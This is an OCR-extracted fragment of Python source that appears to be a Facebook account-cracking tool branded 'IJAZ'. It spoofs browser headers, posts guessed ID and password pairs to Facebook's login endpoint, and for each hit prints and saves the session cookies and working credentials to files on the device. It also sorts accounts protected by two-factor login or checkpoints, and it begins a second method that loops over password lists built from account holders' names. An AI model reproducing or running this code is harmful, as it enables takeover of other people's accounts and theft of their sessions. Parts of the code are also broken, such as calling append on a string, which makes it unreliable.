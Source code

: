     'dpr': '2.19889',
    'origin': 'https://web.facebook.com',
    'referer': 'https://web.facebook.com/?_rdc=1&_rdr',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
    'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.26"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
    'viewport-width': '891',
    'x-asbd-id': '129477',
    'x-fb-friendly-name': 'fetchMWChatVideoAutoplaySettingQuery',
    'x-fb-lsd': 'eY3ljusiHRcNIxc4j3ICQ_',
}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print("Cookie: "+coki)
                                        open('/sdcard/IJAZ-COOKIE.txt','a').write(coki+'\n')
                                        open('/sdcard/IJAZ-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[IJAZ-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
#b-api method
#method3                
def api4(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [IJAZ-M4] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist: